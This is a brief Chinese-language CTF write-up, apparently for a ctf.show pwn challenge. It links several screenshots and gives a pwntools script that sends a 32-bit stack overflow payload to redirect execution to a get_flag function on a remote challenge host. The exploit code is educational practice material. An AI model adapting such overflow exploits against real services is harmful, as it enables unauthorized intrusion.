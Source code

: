 

还是一样做法：

![image-20241031143926030](../_media/image-20241031143926030.png)

![image-20241031143944720](../_media/image-20241031143944720.png)

![image-20241031144008164](../_media/image-20241031144008164.png)

溢出到返回函数然后执行get_flag

```python
# # *- coding: utf-8 -*-
from pwn import * 
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28225
p = remote(ip,port)  
payload = b'a' * (0x28 + 0x04) + p32(0x08048586)
p.recvuntil(b'Enter what you want: ')
p.sendline(payload) 
p.interactive()
```
